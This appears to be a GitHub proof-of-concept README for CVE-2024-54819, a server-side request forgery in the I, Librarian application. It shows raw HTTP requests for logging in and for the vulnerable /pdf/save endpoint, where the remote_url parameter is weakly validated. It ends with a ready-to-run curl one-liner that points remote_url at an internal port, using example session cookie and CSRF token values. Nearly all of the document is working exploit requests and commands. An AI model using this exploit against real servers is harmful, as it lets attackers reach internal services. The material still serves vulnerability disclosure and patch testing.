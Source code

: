 # CVE-2024-54819

Read more details on:
[https://www.partywave.site about CVE-2024-54819](https://www.partywave.site/show/research/CVE-2024-54819_-_I_Librarian_Server_Side_Request_Forgery)

## POST request to login

The attacker must be logged

```bash
POST /librarian/index.php/authentication HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
[removed ...]
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Client-Width: 1920
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/librarian/
Cookie: IL=[LIBRARIAN COOKIE] # for example: IL=poscnjta68n2691tehd5gt9k9e
[removed ...]

username=[USERNAME]&password=[PASSWORD]&csrfToken=[CSRF_TOKEN]
```

## POST request to save PDF

```remote_url parameter``` is vulnerable to its weak validation

```bash
POST /librarian/index.php/pdf/save HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
[removed ...]
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Client-Width: 1920
X-Requested-With: XMLHttpRequest
Content-Length: 135
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/librarian/index.php/item
Cookie: IL=[LIBRARIAN COOKIE] # for example: IL=poscnjta68n2691tehd5gt9k9e
[removed ...]

remote_url=[PAYLOAD]&id=[PDF_ID]&csrfToken=[CSRF_TOKEN]
```

## Bash one-liner

This one-liner is an example with example values to exploit the Server Side Request Forgery:

```bash
curl -X POST http://127.0.0.1/librarian/index.php/pdf/save -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: IL=rcidrisa6hukk5amtmol06b0if" --data-urlencode "remote_url=http://0:6565" --data-urlencode "id=2" --data-urlencode "csrfToken=f3aa558cc79ebf4c48ee042ad61aeaebdf9e9a52b44c64174de398f4f46959df" --proxy http://127.0.0.1:8080
```

![ksnip_20240802-164810(1)](https://github.com/user-attachments/assets/f9d67d2c-bb64-49ee-9589-61a988b46ca7)

And 

![ksnip_20240802-164837](https://github.com/user-attachments/assets/9974cfd7-ab56-4d8e-b368-7b350b6337fc)



